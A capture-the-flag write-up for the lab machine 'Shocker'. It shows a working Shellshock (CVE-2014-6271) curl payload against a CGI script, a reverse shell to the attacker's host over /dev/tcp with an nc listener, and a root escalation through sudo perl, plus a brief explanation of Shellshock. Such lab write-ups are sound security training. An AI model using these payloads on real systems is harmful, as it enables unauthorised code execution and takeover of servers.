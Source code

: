 This machine is named `Shocker` and the picture on the home page was a bug I bet this is vulnerable to CVE-2014-6271, (bash bug or shellshock). To do this I did a simple `curl` request on `/cgi-bin/user.sh` and got code execution!

```
┌─[zon@pwn]─[~/htb/shocker]
└──╼ $curl -H 'User-Agent: () { :; }; echo Content-Type: text/html; echo; /usr/bin/whoami;' http://10.10.10.56/cgi-bin/user.sh
shelly
```

Breakdown of the payload

- `() { :; };` This will define an empty bash function. It is required because shellshock relies on a function being declared before other commands are.
- `echo Content-Type: text/html; echo;` This helps prevent the server from crashing. A properly formatted HTTP response will contain a `Content-Type` header, and a blank line before the body of the repose is displayed
- `/usr/bin/whoami;` The command that we want to execute on the system

From there I can get a shell pretty easy 
```
┌─[zon@pwn]─[~/htb/shocker]
└──╼ $curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.5/9001 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

Make sure to run `nc -lvnp 9001` before executing the payload above.
```
┌─[zon@pwn]─[~/htb/shocker]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 56654
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

# Root

Running `sudo -l` shows that I can run `/usr/bin/perl` without a password. [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#suid) has an escape for Perl!

```
shelly@Shocker:/usr/lib/cgi-bin$sudo perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
```

# SHELLSCHOCK

The Shellshock vulnerability effects Bash before 4.3. Shellshock occurs when user controlled variables are passed to bash. `Shocker` used the most common exploitation of `/cgi-bin`

### `/cgi-bin`
What is `cgi-bin`? `cgi-bin` is a folder used to store scripts that will interact with a Web browser to give the site functionality. An example would be visualization for user experience. `Shocker` uses `user.sh` to show the uptime of the server. Script files in `/cgi-bin` can be written in any language understood by the server (perl, python, bash, etc), on this machine it was bash
